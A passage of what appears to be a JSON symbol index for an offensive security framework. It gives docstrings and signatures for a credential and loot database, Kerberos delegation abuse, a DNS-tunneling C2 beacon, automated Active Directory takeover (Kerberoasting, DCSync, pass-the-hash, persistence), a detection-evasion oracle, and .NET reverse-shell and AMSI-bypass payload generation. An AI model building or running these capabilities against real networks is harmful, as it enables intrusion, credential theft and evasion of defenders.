{"doc": "Path to the SQLite database file.", "kind": "method", "line": 182, "name": "db_path", "signature": "def db_path(self)"}, {"kind": "method", "line": 186, "name": "_init_schema", "signature": "def _init_schema(self)"}, {"kind": "method", "line": 192, "name": "_current_version", "signature": "def _current_version(self)"}, {"doc": "Apply any pending incremental migrations.\n\nReturns the list of version numbers that were applied during\nthis call (empty when the database is already up to date).", "kind": "method", "line": 197, "name": "_run_migrations", "signature": "def _run_migrations(self)"}, {"doc": "Return the current and latest migration versions.\n\nReturns:\n    Dict with keys ``current`` (int), ``latest`` (int), and\n    ``pending`` (list[int] of versions not yet applied).", "kind": "method", "line": 222, "name": "migration_status", "signature": "def migration_status(self)"}, {"kind": "method", "line": 235, "name": "_cursor", "signature": "def _cursor(self)"}, {"doc": "Encrypt a credential value if the crypto module is available.\n\nRaises:\n    RuntimeError: If the crypto module is unavailable and the value\n        is non-empty, to prevent silent plaintext storage.", "kind": "method", "line": 251, "name": "_maybe_encrypt", "signature": "def _maybe_encrypt(self, value)"}, {"doc": "Decrypt a credential value, falling back to plaintext on error.", "kind": "method", "line": 273, "name": "_maybe_decrypt", "signature": "def _maybe_decrypt(self, value)"}, {"doc": "Create a new workspace.\n\nReturns the workspace ID, or -1 if the name already exists.", "kind": "method", "line": 292, "name": "workspace_create", "signature": "def workspace_create(self, name, description)"}, {"doc": "Return all workspaces as dicts.", "kind": "method", "line": 307, "name": "workspace_list", "signature": "def workspace_list(self)"}, {"doc": "Get a workspace by name, or None.", "kind": "method", "line": 313, "name": "workspace_get", "signature": "def workspace_get(self, name)"}, {"doc": "Return the id of the named workspace, creating it when absent.\n\nArgs:\n    name: Workspace name. Defaults to ``\"default\"``.\nReturns:\n    The workspace row id.", "kind": "method", "line": 320, "name": "default_workspace", "signature": "def default_workspace(self, name)"}, {"doc": "Delete a workspace and all its data. Returns True if deleted.", "kind": "method", "line": 333, "name": "workspace_delete", "signature": "def workspace_delete(self, name)"}, {"doc": "Add or update a host. Returns the host ID.", "kind": "method", "line": 357, "name": "host_add", "signature": "def host_add(self, workspace_id, address, mac, hostname, os, state)"}, {"doc": "Delete a host and its related data.", "kind": "method", "line": 390, "name": "host_delete", "signature": "def host_delete(self, host_id)"}, {"doc": "List all hosts in a workspace.", "kind": "method", "line": 401, "name": "host_list", "signature": "def host_list(self, workspace_id)"}, {"doc": "Search hosts by address, hostname, or os.", "kind": "method", "line": 410, "name": "host_find", "signature": "def host_find(self, workspace_id, query)"}, {"doc": "Add a service to a host.", "kind": "method", "line": 427, "name": "service_add", "signature": "def service_add(self, host_id, port, protocol, state, name, product, version)"}, {"doc": "List all services on a host.", "kind": "method", "line": 447, "name": "service_list", "signature": "def service_list(self, host_id)"}, {"doc": "Add a vulnerability to a host.", "kind": "method", "line": 460, "name": "vuln_add", "signature": "def vuln_add(self, host_id, name, severity, description, refs)"}, {"doc": "Return one vuln row with its host address, or None.", "kind": "method", "line": 478, "name": "vuln_get", "signature": "def vuln_get(self, vuln_id)"}, {"doc": "Update mutable vuln fields; returns True when a row changed.\n\nArgs:\n    vuln_id: Vuln row id.\n    refs: Replacement refs string (status/evidence markers).\n    severity: Replacement severity label.\n    description: Replacement description text.\n\nReturns:\n    True when the row existed and was updated.", "kind": "method", "line": 490, "name": "vuln_update", "signature": "def vuln_update(self, vuln_id, refs, severity, description)"}, {"doc": "List vulns in workspace, optionally filtered by severity.", "kind": "method", "line": 528, "name": "vuln_list", "signature": "def vuln_list(self, workspace_id, severity)"}, {"doc": "Add a credential (password encrypted at rest).", "kind": "method", "line": 557, "name": "cred_add", "signature": "def cred_add(self, host_id, username, password, realm, cred_type, origin)"}, {"doc": "List all creds in workspace (passwords decrypted).", "kind": "method", "line": 577, "name": "cred_list", "signature": "def cred_list(self, workspace_id)"}, {"doc": "Add a loot entry.", "kind": "method", "line": 596, "name": "loot_add", "signature": "def loot_add(self, workspace_id, name, loot_type, path, notes, host_id)"}, {"doc": "List all loot in workspace.", "kind": "method", "line": 615, "name": "loot_list", "signature": "def loot_list(self, workspace_id)"}, {"doc": "Add a note.", "kind": "method", "line": 631, "name": "note_add", "signature": "def note_add(self, workspace_id, data, note_type, host_id)"}, {"doc": "List all notes in workspace.", "kind": "method", "line": 648, "name": "note_list", "signature": "def note_list(self, workspace_id)"}, {"doc": "Import an Nmap XML file into the database.\n\nReturns a dict with counts of imported hosts, services, and os\nfingerprints.", "kind": "method", "line": 664, "name": "import_nmap_xml", "signature": "def import_nmap_xml(self, workspace_id, xml_path)"}, {"doc": "Export a table to CSV string.\n\nArgs:\n    table: One of ``hosts``, ``services``, ``vulns``, ``creds``,\n        ``loot``, ``notes``.\n    workspace_id: Filter by workspace (required for workspace-\n        scoped tables). If None, exports all data.\n\nReturns:\n    CSV-formatted string with header row.\n\nRaises:\n    ValueError: If table is not in the allowed set.", "kind": "method", "line": 740, "name": "export_csv", "signature": "def export_csv(self, table, workspace_id)"}, {"doc": "Return counts for every entity type in a workspace.", "kind": "method", "line": 775, "name": "status", "signature": "def status(self, workspace_id)"}, {"doc": "Close the database connection for the current thread.\n\nIdempotent — safe to call multiple times.", "kind": "method", "line": 804, "name": "close", "signature": "def close(self)"}]}, {"doc": "Active Directory delegation enumeration and abuse.  Enumerates and exploits Kerberos delegation configurations: unconstrained delegation, constrained delegation (with/without protocol transition), and resource-based constrained delegation (RBCD).  Each delegation type allows attackers to impersonate users to services, escalating from standard domain user to domain admin through misconfigured delegation trusts.", "id": "modules/delegation_attacks.py", "kind": "module", "label": "delegation_attacks.py", "language": "py", "sha256": "048852727ea5c7ed", "symbol_count": 12, "symbols": [{"doc": "A delegation-enabled account or computer.\n\nAttributes:\n    sam_account_name: sAMAccountName.\n    distinguished_name: DN in AD.\n    object_sid: Security identifier.\n    uac: userAccountControl flags integer.\n    service_principal_names: List of SPNs.\n    msds_allowed_to_delegate_to: Constrained delegation targets.\n    msds_allowed_to_act_on_behalf_of_other_identity: RBCD SID.\n    is_unconstrained: Has TRUSTED_FOR_DELEGATION flag.\n    is_constrained: Has msDS-AllowedToDelegateTo entries.\n    is_rbcd_target: Has msDS-AllowedToActOnBehalfOfOtherIdentity set.\n    protocol_transition: Has TRUSTED_TO_AUTH_FOR_DELEGATION.", "kind": "class", "line": 32, "name": "DelegationTarget", "signature": "class DelegationTarget"}, {"doc": "A delegation-based attack path from source to target.\n\nAttributes:\n    source_account: Account that can delegate.\n    target_account: Account being delegated to.\n    delegation_type: unconstrained, constrained, or rbcd.\n    requires_compromise: What needs to be compromised first.\n    severity: critical, high, medium, low.\n    attack_steps: Ordered list of attack step descriptions.\n    exploitation_commands: Shell commands to execute the attack.", "kind": "class", "line": 63, "name": "DelegationAttackPath", "signature": "class DelegationAttackPath"}, {"doc": "Enumerate Kerberos delegation configurations from Active Directory.\n\nParses LDAP output, BloodHound data, or raw AD attributes to identify\nunconstrained delegation, constrained delegation, and RBCD targets.\n\nAttributes:\n    domain: Target domain FQDN.\n    raw_ldap_output: Raw LDAP search results text.\n    targets: Discovered delegation targets.\n    attack_paths: Computed attack paths.", "kind": "class", "line": 85, "name": "DelegationEnumerator", "signature": "class DelegationEnumerator"}, {"kind": "method", "line": 98, "name": "__init__", "signature": "def __init__(self, domain, raw_ldap_output)"}, {"doc": "Enumerate delegation targets from parsed account data.\n\nArgs:\n    accounts: List of dicts with samaccountname, useraccountcontrol,\n        serviceprincipalname, msds-allowedtodelegateto.\n\nReturns:\n    List of DelegationTarget objects.", "kind": "method", "line": 104, "name": "enumerate_from_uac_flags", "signature": "def enumerate_from_uac_flags(self, accounts)"}, {"doc": "Parse BloodHound JSON output for delegation data.\n\nArgs:\n    bloodhound_json: List of BloodHound node/edge dicts.\n\nReturns:\n    List of DelegationTarget objects.", "kind": "method", "line": 151, "name": "parse_bloodhound_output", "signature": "def parse_bloodhound_output(self, bloodhound_json)"}, {"doc": "Return all accounts with unconstrained delegation enabled.\n\nReturns:\n    Filtered list of unconstrained delegation targets.", "kind": "method", "line": 181, "name": "find_unconstrained_targets", "signature": "def find_unconstrained_targets(self)"}, {"doc": "Return all accounts with constrained delegation configured.\n\nReturns:\n    Filtered list of constrained delegation targets.", "kind": "method", "line": 189, "name": "find_constrained_targets", "signature": "def find_constrained_targets(self)"}, {"doc": "Return all accounts with RBCD configured.\n\nReturns:\n    Filtered list of RBCD targets.", "kind": "method", "line": 197, "name": "find_rbcd_targets", "signature": "def find_rbcd_targets(self)"}, {"doc": "Return domain controllers with delegation configured.\n\nReturns:\n    List of DC delegation targets.", "kind": "method", "line": 205, "name": "find_dc_targets", "signature": "def find_dc_targets(self)"}, {"doc": "Compute delegation-based attack paths.\n\nAnalyzes discovered targets to build attack chains:\nUnconstrained: Compromise DC/sensitive server -> capture TGTs from privileged users.\nConstrained: Compromise account with delegation -> impersonate to target services.\nRBCD: Create machine account -> configure RBCD -> impersonate arbitrary user.\n\nReturns:\n    Ordered list of DelegationAttackPath by severity.", "kind": "method", "line": 215, "name": "compute_attack_paths", "signature": "def compute_attack_paths(self)"}, {"doc": "Return a summary of all delegation findings.\n\nReturns:\n    Dict with counts, targets list, and computed attack paths.", "kind": "method", "line": 296, "name": "summary", "signature": "def summary(self)"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: webscrapper gtofbins  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "modules/detailed_search.py", "kind": "module", "label": "detailed_search.py", "language": "py", "sha256": "f47fa4e0e3d2d67d", "symbol_count": 1, "symbols": [{"kind": "function", "line": 40, "name": "obtener_informacion", "signature": "def obtener_informacion(url)"}]}, {"doc": "Dynamic detection feed for the Detection Oracle.  The :class:`DetectionOracle` in ``modules/detection_oracle.py`` uses 17 static Sigma-lite rules with fixed ``base_probability`` values.  In a real engagement, EDR vendors and SIEM rulesets evolve constantly.  This module provides a feed mechanism that can:  1. Download updated Sigma rules from SigmaHQ (GitHub) and convert them to :class:`SigmaRule` objects. 2. Adjust ``base_probability`` values based on historical campaign feedback (false positives lower the probability; missed detections raise it). 3. Cache downloaded rules locally so the oracle works offline after the first fetch.  Design (SOLID) -------------- - Single Responsibility : fetch + adjust detection rules only. - Open/Closed           : new feed sources added as entries in ``_FEED_SOURCES``. - Dependency Inversion  : :class:`DetectionOracle` depends on the ``DetectionFeed`` interface, not a specific source.", "id": "modules/detection_feed.py", "kind": "module", "label": "detection_feed.py", "language": "py", "sha256": "637c208a5f9dc7c8", "symbol_count": 13, "symbols": [{"doc": "Result of a feed update operation.", "kind": "class", "line": 64, "name": "FeedResult", "signature": "class FeedResult"}, {"doc": "Fetches and adjusts detection rules from external sources.\n\nSources\n-------\n- SigmaHQ: Raw Sigma YAML rules from the SigmaHQ GitHub repository.\n- Campaign feedback: Adjusts probabilities based on past detection\n  outcomes stored in ``sessions/detection_feedback.jsonl``.", "kind": "class", "line": 73, "name": "DetectionFeed", "signature": "class DetectionFeed"}, {"doc": "Return a module-level :class:`DetectionFeed` singleton.", "kind": "function", "line": 326, "name": "get_feed", "signature": "def get_feed()"}, {"kind": "method", "line": 83, "name": "__init__", "signature": "def __init__(self, cache_dir, sources)"}, {"doc": "Download and parse rules from the given source.\n\nArgs:\n    source: Source name (key in ``_FEED_SOURCES``).\n\nReturns:\n    List of new :class:`SigmaRule` objects parsed from the feed.", "kind": "method", "line": 92, "name": "update_rules", "signature": "def update_rules(self, source)"}, {"doc": "Parse raw Sigma YAML text into SigmaRule objects.\n\nSigma rules are YAML files with ``title``, ``logsource``,\n``detection``, and ``tags`` fields.  We extract keywords from\nthe detection patterns and map the log source / tags to our\ncategory system.", "kind": "method", "line": 125, "name": "_parse_sigma_feed", "signature": "def _parse_sigma_feed(self, text)"}, {"kind": "method", "line": 172, "name": "_extract_log_source", "signature": "def _extract_log_source(self, doc)"}, {"kind": "method", "line": 180, "name": "_extract_mitre", "signature": "def _extract_mitre(self, doc)"}, {"kind": "method", "line": 189, "name": "_extract_keywords", "signature": "def _extract_keywords(self, doc)"}, {"kind": "method", "line": 206, "name": "_extract_categories", "signature": "def _extract_categories(self, doc)"}, {"doc": "Cache downloaded rules to disk for offline use.", "kind": "method", "line": 219, "name": "_cache_rules", "signature": "def _cache_rules(self, rules, source)"}, {"doc": "Load previously cached rules from disk.", "kind": "method", "line": 246, "name": "load_cached_rules", "signature": "def load_cached_rules(self, source)"}, {"doc": "Adjust rule probabilities based on historical detection feedback.\n\nReads ``sessions/detection_feedback.jsonl`` (or a custom path) where\neach line is::\n\n    {\"rule_id\": \"LAZ-001\", \"detected\": true, \"actual\": false}\n\n- ``detected=true, actual=false`` → false positive → lower probability\n- ``detected=false, actual=true``  → missed detection → raise probability\n\nArgs:\n    feedback_file: Optional path to a feedback JSONL file.\n\nReturns:\n    Number of rules whose probability was adjusted.", "kind": "method", "line": 270, "name": "adjust_from_feedback", "signature": "def adjust_from_feedback(self, feedback_file)"}]}, {"doc": "modules/detection_oracle.py ============================ Blue Team Mirror — predicts detection probability for a given action before it is executed by the autonomous loop or a hive-mind drone.  Maps LazyOwn action categories and specific command patterns to sigma-lite detection rules, predicted log sources, and an aggregated detection probability score in [0.0, 1.0].  Design principles ----------------- - Single Responsibility : detection prediction only; no command execution - Open/Closed           : new sigma rules added via _SIGMA_RULES list only - Liskov Substitution   : IDetectionOracle defines the contract - Interface Segregation : IDetectionOracle exposes only assess() and probability() - Dependency Inversion  : callers depend on IDetectionOracle, not DetectionOracle  Usage ----- from modules.detection_oracle import get_oracle  oracle = get_oracle() assessment = oracle.assess(\"mimikatz\", \"sekurlsa::logonpasswords\", \"credential\") if assessment.is_high_risk: print(f\"High detection risk ({assessment.probability:.0%}): \" f\"{assessment.sigma_names}\") print(assessment.recommendation)", "id": "modules/detection_oracle.py", "kind": "module", "label": "detection_oracle.py", "language": "py", "sha256": "b4d1a2c3e3065df2", "symbol_count": 17, "symbols": [{"doc": "Lightweight representation of a Sigma-compatible detection rule.", "kind": "class", "line": 50, "name": "SigmaRule", "signature": "class SigmaRule"}, {"doc": "Result returned by DetectionOracle.assess().", "kind": "class", "line": 63, "name": "DetectionAssessment", "signature": "class DetectionAssessment"}, {"doc": "Read-only contract for detection probability assessment.", "kind": "class", "line": 90, "name": "IDetectionOracle", "signature": "class IDetectionOracle(ABC)"}, {"doc": "Maps a (command, args, action_category) triple to a detection probability.\n\nMatching algorithm\n------------------\n1. Scan all sigma rules for keyword hits in the lowercased command+args.\n2. Include rules whose category_tags overlap with action_category.\n3. Boost matched rule probabilities by 10% when both keyword AND category hit.\n4. Aggregate using the OR-probability formula:\n       P = 1 - prod(1 - effective_p_i)\n5. Clamp result to [0.0, 1.0].\n6. Fall back to _CATEGORY_BASE_PROBABILITY when no rules matched.", "kind": "class", "line": 317, "name": "DetectionOracle", "signature": "class DetectionOracle(IDetectionOracle)"}, {"doc": "Return (or create) the module-level singleton DetectionOracle.", "kind": "function", "line": 478, "name": "get_oracle", "signature": "def get_oracle()"}, {"doc": "Return True when detection probability is 70% or higher.", "kind": "method", "line": 75, "name": "is_high_risk", "signature": "def is_high_risk(self)"}, {"doc": "Return True when detection probability is 90% or higher.", "kind": "method", "line": 80, "name": "is_critical_risk", "signature": "def is_critical_risk(self)"}, {"doc": "Return a full DetectionAssessment for the given action.", "kind": "method", "line": 94, "name": "assess", "signature": "def assess(self, command, args, action_category)"}, {"doc": "Return only the probability score in [0.0, 1.0].", "kind": "method", "line": 103, "name": "probability", "signature": "def probability(self, command, args, action_category)"}, {"kind": "method", "line": 332, "name": "__init__", "signature": "def __init__(self, rules, feed)"}, {"doc": "Update rules from the detection feed (if available).\n\nDownloads new Sigma rules from the feed source, caches them locally,\nand merges them with the existing static rules.  Also adjusts\nprobabilities based on historical detection feedback.\n\nReturns:\n    Number of new rules added to the oracle.", "kind": "method", "line": 336, "name": "refresh", "signature": "def refresh(self)"}, {"kind": "method", "line": 371, "name": "assess", "signature": "def assess(self, command, args, action_category)"}, {"kind": "method", "line": 392, "name": "probability", "signature": "def probability(self, command, args, action_category)"}, {"doc": "A rule matches when EITHER condition holds:\n- A keyword from the rule appears in the command text (direct evidence), OR\n- The action category matches AND at least one keyword was found globally.\n\nCategory-only matches (no keyword in command text) are NOT included\nbecause that would assign high detection probability to low-noise commands\nthat merely belong to a broadly-defined category (e.g. 'dig' as recon).\nThe category tag is used exclusively to boost the probability of already-\nmatched rules via _effective_probability().", "kind": "method", "line": 397, "name": "_match_rules", "signature": "def _match_rules(self, text, action_category)"}, {"doc": "Return the effective probability for a matched rule.\nApplies a 10% boost when the action category also matches the rule's\ncategory_tags, reflecting higher confidence when both signals align.", "kind": "method", "line": 417, "name": "_effective_probability", "signature": "def _effective_probability(rule, action_category)"}, {"doc": "Aggregate per-rule probabilities using the OR-probability formula so\nthat each additional rule increases (rather than replaces) the total risk.", "kind": "method", "line": 427, "name": "_aggregate_probability", "signature": "def _aggregate_probability(self, matched, action_category)"}, {"kind": "method", "line": 444, "name": "_build_recommendation", "signature": "def _build_recommendation(probability, matched, action_category)"}]}, {"doc": "DNS Beacon — covert C2 channel via DNS tunneling.  Supports A/AAAA/TXT record tunneling. The beacon encodes commands and results as DNS subdomain queries. The server reconstructs data from DNS query logs.  Transport modes: A       — Commands in A-record response IP addresses. TXT     — Commands in TXT record responses. AAAA    — Commands in AAAA-record responses.", "id": "modules/dns_beacon.py", "kind": "module", "label": "dns_beacon.py", "language": "py", "sha256": "24f45413d6b9f933", "symbol_count": 19, "symbols": [{"doc": "DNS tunneling beacon client.\n\nEncodes heartbeats and command output as subdomain queries.\nDecodes DNS response data as commands.\n\nArgs:\n    domain: DNS domain controlled by the operator.\n    dns_server: Resolver to use (default: system resolver).\n    sleep_seconds: Interval between check-ins.\n    jitter_percent: Random jitter percentage applied to sleep.\n    dns_type: DNS record type (A, TXT, AAAA).\n    encode_method: Encoding for data (base32, base64, hex).", "kind": "class", "line": 23, "name": "DNSBeacon", "signature": "class DNSBeacon"}, {"doc": "DNS C2 server for receiving beacon data from DNS query logs.\n\nMonitors DNS query logs and reconstructs beacon traffic.\nSupports log sources: file, tcpdump pipe, stdin.\n\nArgs:\n    domain: DNS domain controlled by the operator.\n    log_source: Path to DNS query log file, or 'tcpdump' for live capture.\n    interface: Network interface for tcpdump capture mode.", "kind": "class", "line": 199, "name": "DNSC2Server", "signature": "class DNSC2Server"}, {"kind": "method", "line": 38, "name": "__init__", "signature": "def __init__(self, domain, dns_server, sleep_seconds, jitter_percent, dns_type, encode_method)"}, {"kind": "method", "line": 57, "name": "_ensure_dnspython", "signature": "def _ensure_dnspython(self)"}, {"kind": "method", "line": 63, "name": "_encode", "signature": "def _encode(self, data)"}, {"kind": "method", "line": 70, "name": "_decode", "signature": "def _decode(self, data)"}, {"kind": "method", "line": 78, "name": "_jittered_sleep", "signature": "def _jittered_sleep(self)"}, {"kind": "method", "line": 84, "name": "_dns_query", "signature": "def _dns_query(self, name, qtype)"}, {"kind": "method", "line": 96, "name": "_build_query", "signature": "def _build_query(self, msg_type, payload)"}, {"doc": "Send heartbeat and check for pending commands.\n\nReturns:\n    Command string if one is queued, or None.", "kind": "method", "line": 105, "name": "check_in", "signature": "def check_in(self)"}, {"doc": "Send command output via DNS TXT queries.\n\nArgs:\n    command: The executed command.\n    output: Command stdout/stderr.\n    exit_code: Process exit code.", "kind": "method", "line": 135, "name": "send_result", "signature": "def send_result(self, command, output, exit_code)"}, {"doc": "Main beacon loop: check-in -> execute command -> send result -> sleep.", "kind": "method", "line": 171, "name": "run", "signature": "def run(self)"}, {"kind": "method", "line": 211, "name": "__init__", "signature": "def __init__(self, domain, log_source, interface)"}, {"doc": "Register a new DNS beacon.", "kind": "method", "line": 225, "name": "register_beacon", "signature": "def register_beacon(self, beacon_id, hostname)"}, {"doc": "List all registered DNS beacons.", "kind": "method", "line": 235, "name": "list_beacons", "signature": "def list_beacons(self)"}, {"doc": "Queue a command for a DNS beacon.\n\nArgs:\n    beacon_id: Beacon identifier.\n    command: Shell command to execute.", "kind": "method", "line": 239, "name": "send_task", "signature": "def send_task(self, beacon_id, command)"}, {"doc": "Process a single DNS query log line and extract beacon data.\n\nSupports standard syslog and BIND query log formats.\n\nArgs:\n    line: Raw DNS query log line.", "kind": "method", "line": 248, "name": "process_query_log", "signature": "def process_query_log(self, line)"}, {"kind": "method", "line": 294, "name": "_handle_result", "signature": "def _handle_result(self, labels, query)"}, {"doc": "Get received results for a beacon.\n\nArgs:\n    beacon_id: Beacon identifier.\n\nReturns:\n    List of result dictionaries.", "kind": "method", "line": 327, "name": "get_results", "signature": "def get_results(self, beacon_id)"}]}, {"doc": "Domain Dominance Engine — automated Active Directory takeover.  Provides a ``DomainDominance`` engine that orchestrates the full AD attack kill-chain in one command: enumeration, credential extraction, lateral movement, privilege escalation, and persistence. Integrates with the existing BloodHound, impacket, and CrackMapExec tool chains.  Architecture: PhaseNavigator -> EnumStage -> CredStage -> LateralStage -> PrivEscStage -> PersistStage | +-- LLM Advisor (optional, Groq-powered for strategy decisions)  Security: All credentials are written to ``sessions/credentials_*.txt`` following the existing LazyOwn convention. No credentials are logged to stdout.  Usage: from modules.domain_dominance import DomainDominance dd = DomainDominance() results = dd.dominate(domain=\"corp.local\", dc_ip=\"10.10.11.5\")", "id": "modules/domain_dominance.py", "kind": "module", "label": "domain_dominance.py", "language": "py", "sha256": "73b9b0eb300e9774", "symbol_count": 30, "symbols": [{"doc": "Structured domain information collected during enumeration.", "kind": "class", "line": 49, "name": "DomainInfo", "signature": "class DomainInfo"}, {"doc": "Credentials collected during the engagement.", "kind": "class", "line": 65, "name": "CredentialStash", "signature": "class CredentialStash"}, {"doc": "Outcome of a domain dominance operation.", "kind": "class", "line": 75, "name": "DominanceResult", "signature": "class DominanceResult"}, {"doc": "Orchestrate full domain takeover from initial foothold to persistence.\n\nPublic methods:\n    dominate(domain, dc_ip) -> DominanceResult\n    enumerate_domain(domain, dc_ip) -> DomainInfo\n    extract_credentials(domain_info) -> CredentialStash\n    escalate(domain_info, stash) -> list[str]\n    persist(domain_info) -> list[str]", "kind": "class", "line": 89, "name": "DomainDominance", "signature": "class DomainDominance"}, {"kind": "method", "line": 103, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 110, "name": "get_instance", "signature": "def get_instance(cls)"}, {"doc": "Execute the full AD dominance kill-chain.\n\nArgs:\n    domain: FQDN of the target domain.\n    dc_ip: Domain Controller IP (optional, will be discovered).\n    username: Known username for initial auth.\n    password: Known password for initial auth.\n    ntlm_hash: NTLM hash for pass-the-hash.\n\nReturns:\n    DominanceResult with full outcome.", "kind": "method", "line": 121, "name": "dominate", "signature": "def dominate(self, domain, dc_ip, username, password, ntlm_hash)"}, {"doc": "Enumerate the target domain topology.\n\nArgs:\n    domain: Target domain FQDN.\n    dc_ip: Known DC IP or empty for discovery.\n\nReturns:\n    DomainInfo with enumeration results.", "kind": "method", "line": 194, "name": "enumerate_domain", "signature": "def enumerate_domain(self, domain, dc_ip)"}, {"doc": "Extract credentials using the discovered domain topology.\n\nArgs:\n    domain_info: Discovered DomainInfo.\n    known_creds: Pre-existing credentials to try.\n\nReturns:\n    CredentialStash with extracted credentials.", "kind": "method", "line": 227, "name": "extract_credentials", "signature": "def extract_credentials(self, domain_info, known_creds)"}, {"doc": "Escalate privileges and move laterally through the domain.\n\nArgs:\n    domain_info: Domain topology.\n    stash: Collected credentials.\n\nReturns:\n    List of session identifiers obtained.", "kind": "method", "line": 260, "name": "escalate", "signature": "def escalate(self, domain_info, stash)"}, {"doc": "Establish persistence mechanisms across the domain.\n\nArgs:\n    domain_info: Target domain topology.\n\nReturns:\n    List of persistence mechanism identifiers.", "kind": "method", "line": 314, "name": "persist", "signature": "def persist(self, domain_info)"}, {"doc": "Discover the domain controller IP.\n\nArgs:\n    domain: Target domain.\n    dns_servers: DNS servers to query.\n\nReturns:\n    DC IP or empty string.", "kind": "method", "line": 340, "name": "_discover_dc", "signature": "def _discover_dc(self, domain, dns_servers)"}, {"doc": "Find all domain controllers.\n\nArgs:\n    domain: Target domain.\n    dc_ip: Known DC IP.\n\nReturns:\n    List of DC IPs/hostnames.", "kind": "method", "line": 366, "name": "_find_dcs", "signature": "def _find_dcs(self, domain, dc_ip)"}, {"doc": "Enumerate Domain Admins group.\n\nArgs:\n    domain: Target domain.\n    dc_ip: DC IP.\n\nReturns:\n    List of domain admin usernames.", "kind": "method", "line": 392, "name": "_find_domain_admins", "signature": "def _find_domain_admins(self, domain, dc_ip)"}, {"doc": "Enumerate domain users.\n\nArgs:\n    dc_ip: DC IP.\n\nReturns:\n    List of usernames.", "kind": "method", "line": 426, "name": "_enumerate_users", "signature": "def _enumerate_users(self, dc_ip)"}, {"doc": "Enumerate domain computers.\n\nArgs:\n    dc_ip: DC IP.\n\nReturns:\n    List of computer names.", "kind": "method", "line": 469, "name": "_enumerate_computers", "signature": "def _enumerate_computers(self, dc_ip)"}, {"doc": "Enumerate domain groups.\n\nArgs:\n    dc_ip: DC IP.\n\nReturns:\n    Dict mapping group names to member lists.", "kind": "method", "line": 495, "name": "_enumerate_groups", "signature": "def _enumerate_groups(self, dc_ip)"}, {"doc": "Enumerate service principal names.\n\nArgs:\n    dc_ip: DC IP.\n\nReturns:\n    List of SPNs.", "kind": "method", "line": 516, "name": "_enumerate_spns", "signature": "def _enumerate_spns(self, dc_ip)"}, {"doc": "Enumerate domain trusts.\n\nArgs:\n    domain: Target domain.\n    dc_ip: DC IP.\n\nReturns:\n    List of trust relationship dicts.", "kind": "method", "line": 546, "name": "_enumerate_trusts", "signature": "def _enumerate_trusts(self, domain, dc_ip)"}, {"doc": "Perform AS-REP roasting.\n\nArgs:\n    domain_info: Domain topology.\n\nReturns:\n    List of cracked hashes.", "kind": "method", "line": 575, "name": "_asrep_roast", "signature": "def _asrep_roast(self, domain_info)"}, {"doc": "Perform Kerberoasting.\n\nArgs:\n    domain_info: Domain topology.\n\nReturns:\n    List of cracked hashes.", "kind": "method", "line": 625, "name": "_kerberoast", "signature": "def _kerberoast(self, domain_info)"}, {"doc": "Create a PsExec session.\n\nArgs:\n    target: Target IP/hostname.\n    domain: Domain name.\n    user: Username.\n    password: Password.\n\nReturns:\n    Session ID string.", "kind": "method", "line": 666, "name": "_psexec_session", "signature": "def _psexec_session(self, target, domain, user, password)"}, {"doc": "Create a WMIExec session.\n\nArgs:\n    target: Target IP/hostname.\n    domain: Domain name.\n    user: Username.\n    password: Password.\n\nReturns:\n    Session ID string.", "kind": "method", "line": 697, "name": "_wmiexec_session", "signature": "def _wmiexec_session(self, target, domain, user, password)"}, {"doc": "Create a Pass-the-Hash session.\n\nArgs:\n    target: Target IP/hostname.\n    domain: Domain name.\n    user: Username.\n    ntlm_hash: NTLM hash.\n\nReturns:\n    Session ID string.", "kind": "method", "line": 728, "name": "_pth_session", "signature": "def _pth_session(self, target, domain, user, ntlm_hash)"}, {"doc": "Attempt DCSync to extract all domain hashes.\n\nArgs:\n    dc_ip: DC IP.\n\nReturns:\n    True if DCSync was successful.", "kind": "method", "line": 768, "name": "_attempt_dcsync", "signature": "def _attempt_dcsync(self, dc_ip)"}, {"doc": "Load payload configuration.\n\nReturns:\n    Configuration dict.", "kind": "method", "line": 827, "name": "_load_config", "signature": "def _load_config(self)"}, {"doc": "Convert FQDN to LDAP distinguished name.\n\nArgs:\n    domain: FQDN domain name.\n\nReturns:\n    Base DN string.", "kind": "method", "line": 838, "name": "_domain_to_dn", "signature": "def _domain_to_dn(self, domain)"}, {"doc": "Save a discovered credential to the sessions directory.\n\nLoot must stay operator-readable for the engagement, so it is kept\nin clear text with owner-only permissions (directory 0700, file\n0600) and never written to logs. Callers must scrub ``secret``\nfrom any returned strings.\n\nArgs:\n    username: Username.\n    secret: Password or hash.\n    secret_type: Type of secret.\n    source: Where the credential came from.", "kind": "method", "line": 849, "name": "_save_credential", "signature": "def _save_credential(self, username, secret, secret_type, source)"}, {"doc": "Save session metadata.\n\nArgs:\n    session_id: Session identifier.\n    target: Target IP/hostname.\n    method: Access method used.\n    user: Username used.", "kind": "method", "line": 880, "name": "_save_session", "signature": "def _save_session(self, session_id, target, method, user)"}, {"doc": "Save the dominance operation report.", "kind": "method", "line": 900, "name": "_save_dominance_report", "signature": "def _save_dominance_report(self)"}]}, {"doc": ".NET/C# payload generation — execute-assembly, inline-assembly, Roslyn compilation.  Provides DotNetPayloadFactory for generating C# payloads including reverse shells, process injection shells, token manipulation tools, and AMSI/ETW bypass assemblies. Supports both execute-assembly (compile to DLL/EXE via csc/dotnet) and inline-assembly (embed C# source for reflective loading) delivery patterns.  All templates derive target connection parameters from payload.json configuration.", "id": "modules/dotnet_payload.py", "kind": "module", "label": "dotnet_payload.py", "language": "py", "sha256": "d2bdcdd6707a2f17", "symbol_count": 12, "symbols": [{"doc": "Configuration for a .NET payload compilation.\n\nAttributes:\n    template_name: Key in CSHARP_TEMPLATES.\n    target: Compilation target (exe, dll, netmodule).\n    platform: CPU architecture (x86, x64, AnyCPU).\n    framework: .NET framework version or '' for modern dotnet.\n    lhost: Listener IP for reverse connections.\n    lport: Listener port 